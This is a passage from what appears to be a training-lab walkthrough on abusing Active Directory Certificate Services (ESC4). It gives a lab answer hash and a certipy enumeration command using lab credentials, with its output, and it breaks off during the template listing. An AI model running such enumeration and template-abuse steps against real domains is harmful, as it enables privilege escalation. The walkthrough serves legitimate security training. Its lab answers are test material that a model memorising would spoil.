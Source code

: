 Answer: `b9f1864b07e5fb180122e46b60f86f50`

## ESC4

### Question 1

#### "Abuse ESC4 to change the configuration for the template ESC4. Afterward, submit the value of the property Certificate Name Flag."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC4` template suffers from the `ESC4` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP>
  2
    Template Name                       : ESC4
    Display Name                        : ESC4
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
```